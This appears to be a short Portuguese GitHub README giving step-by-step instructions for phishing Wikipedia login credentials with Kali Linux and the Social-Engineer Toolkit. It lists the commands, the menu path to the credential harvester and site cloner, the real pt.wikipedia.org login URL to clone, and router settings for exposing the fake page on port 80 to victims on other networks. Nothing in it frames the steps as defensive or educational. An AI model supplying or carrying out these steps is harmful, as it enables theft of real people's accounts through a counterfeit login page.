

# Phishing para captura de senhas da Wikipédia

## Ferramentas

- Kali Linux
- setoolkit

## Configurando o Phishing no Kali Linux
- Obtendo o endereço da máquina: ``` ifconfig ```
- Obtendo o endereço público: ``` curl ifconfig.co ```
- Acesso root: ``` sudo su ```
- Iniciando o setoolkit: ``` setoolkit ```
- Tipo de ataque: ``` Social-Engineering Attacks ```
- Vetor de ataque: ``` Web Site Attack Vectors ```
- Método de ataque: ```Credential Harvester Attack Method ```
- Método de ataque: ``` Site Cloner ```
- URL para clone: https://pt.wikipedia.org/w/index.php?returnto=Wikip%C3%A9dia%3AP%C3%A1gina+principal&title=Especial:Entrar&centralAuthAutologinTried=1&centralAuthError=Not+centrally+logged+in

### Observações com o endereço público

- Abra a porta 80 no seu roteador.
- Abra em outra rede (rede móveis por exemplo) com o endereço público:80. Exemplo: 111.111.111:80

### Resutados


